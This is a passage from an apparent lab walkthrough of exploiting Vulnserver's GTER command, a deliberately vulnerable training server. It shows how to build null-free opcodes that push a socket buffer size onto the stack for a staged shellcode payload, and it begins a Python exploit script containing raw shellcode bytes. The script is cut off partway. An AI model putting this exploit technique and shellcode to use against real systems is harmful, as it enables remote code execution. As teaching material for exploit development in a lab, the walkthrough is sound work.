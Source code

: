 <img src="https://raw.githubusercontent.com/AidenPearce369/Vulnserver-Walkthrough/main/res/gter2-flag-1.png">
</div>

Our first argument got pushed into stack

## Crafting buffer size argument

Now, we have pushed our ```flag``` argument into stack

Next to it, we have to push the ```buffer size``` for the socket

At starting we saw that tha buffer size being used by the socket was ```4096 bytes```

But we will use ```1024 bytes``` which is adequate for our final ```stage2 shellcode```

Hex value of ```1024 bytes``` is,

```c
>>> hex(1024)
'0x400'
```

Previously we have XORed ```EAX``` so its value will be 0

Crafting opcodes for pushing buffer size into stack,

```c
nasm > add eax,0x400
00000000  0500040000        add eax,0x400
// to avoid null bytes, adding on higher accumulator AX=AH+AL=0x4+0x00=0x400
nasm > add ah,0x4
00000000  80C404            add ah,0x4
nasm > push eax
00000000  50                push eax
```

Adding it to our python script,

```c
┌──(kali㉿aidenpearce369)-[~/vulnserver/GTER]
└─$ cat buffer-size.py    
import socket, sys

file_descriptor=b""
file_descriptor+=b"\xcc"
file_descriptor+=b"\x54"
file_descriptor+=b"\x5b"
file_descriptor+=b"\x66\x81\xc3\x88\x01"

stack_adjustment=b""
stack_adjustment+=b"\x83\xec\x70"

```